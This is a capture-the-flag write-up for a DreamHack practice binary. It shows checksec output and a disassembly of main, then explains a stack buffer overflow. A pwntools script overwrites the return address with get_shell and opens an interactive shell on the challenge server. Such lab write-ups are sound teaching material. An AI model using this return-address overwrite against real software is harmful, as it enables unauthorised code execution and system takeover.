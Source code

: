 ### Overview
let's checksec file 
```
khanh@ubuntu:~/Documents/WorkSpaceDreamHack/PWN-dreamhack/ReturnAddressOverride$ checksec rao
[*] '/home/khanh/Documents/WorkSpaceDreamHack/PWN-dreamhack/ReturnAddressOverride/rao'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
```
This challenge doesn't have Canary!
Let's disassemble main function:
```
gef➤  disassemble main
Dump of assembler code for function main:
   0x00000000004006e8 <+0>:     push   rbp
   0x00000000004006e9 <+1>:     mov    rbp,rsp
   0x00000000004006ec <+4>:     sub    rsp,0x30
   0x00000000004006f0 <+8>:     mov    eax,0x0
   0x00000000004006f5 <+13>:    call   0x400667 <init>
   0x00000000004006fa <+18>:    lea    rdi,[rip+0xbb]        # 0x4007bc
   0x0000000000400701 <+25>:    mov    eax,0x0
   0x0000000000400706 <+30>:    call   0x400540 <printf@plt>
   0x000000000040070b <+35>:    lea    rax,[rbp-0x30]
   0x000000000040070f <+39>:    mov    rsi,rax
   0x0000000000400712 <+42>:    lea    rdi,[rip+0xab]        # 0x4007c4
   0x0000000000400719 <+49>:    mov    eax,0x0
   0x000000000040071e <+54>:    call   0x400570 <__isoc99_scanf@plt>
   0x0000000000400723 <+59>:    mov    eax,0x0
   0x0000000000400728 <+64>:    leave
   0x0000000000400729 <+65>:    ret
End of assembler dump.
```
We can see that the stack alignment in 84 bits architechture spend 0x30 bytes for stack frame
Because buf 0x28 bytes so the remaining 8 bytes is for padding

Thus, to solve this challenge we need to override:
`` 0x30 bytes + 8 bytes saved rbp + return address``

### Exploitation

```py
from pwn import *
p = remote("host3.dreamhack.games", 23351)
elf = ELF("./rao")
payload = b"A"* 0x28 + b"A"*16 + p64(elf.symbols['get_shell'])
p.recvuntil(b"Input: ")
p.sendline(payload)
p.interactive() 
```

